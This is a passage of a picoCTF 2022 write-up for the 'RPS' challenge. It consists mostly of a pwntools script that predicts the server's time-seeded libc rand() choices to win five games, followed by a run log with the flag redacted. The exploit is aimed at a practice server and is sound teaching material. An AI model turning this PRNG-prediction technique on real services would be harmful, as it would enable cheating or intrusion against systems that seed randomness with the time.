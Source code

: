 ### Create an exploit script

Now let's write an exploit in Python with the help of [pwntools](https://docs.pwntools.com/en/stable/index.html) and [ctypes](https://docs.python.org/3/library/ctypes.html)
```python
from pwn import *
from time import time
from ctypes import CDLL

SERVER = 'saturn.picoctf.net'
PORT = 62039

# Set output level (critical, error, warning, info (default), debug)
context.log_level = "info"

io = remote(SERVER, PORT)
libc = CDLL('/lib/x86_64-linux-gnu/libc.so.6')

hands = ["rock", "paper", "scissors"]
    
for i in range(5):
    log.info(f"Game turn #{i+1}")
    io.recvuntil(b'program')
    io.sendline(b'1')
    
    # Predict computer's choice
    libc.srand(int(time()))
    computer_turn = libc.rand() % 3   
    
    # Calculate winning move
    if hands[computer_turn] == "rock":
        payload = b'paper'
    elif hands[computer_turn] == "paper":
        payload = b'scissors'
    elif hands[computer_turn] == "scissors":
        payload = b'rock'
        
    # Submit our winning move
    io.recvuntil(b':')
    io.sendline(payload)
    
# Get the flag
junk = io.recvuntil(b'flag!\r\n')
flag = io.recvuntilS(b'}\r\n')
log.warn(flag)
io.close()
```

### Connect to the server and get the flag

Finally, let's exploit and get the flag
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/RPS]
└─$ ~/python_venvs/pwntools/bin/python rps_exploit.py
[+] Opening connection to saturn.picoctf.net on port 62039: Done
[*] Game turn #1
[*] Game turn #2
[*] Game turn #3
[*] Game turn #4
[*] Game turn #5
[!] picoCTF{<REDACTED>}
[*] Closed connection to saturn.picoctf.net port 62039
```

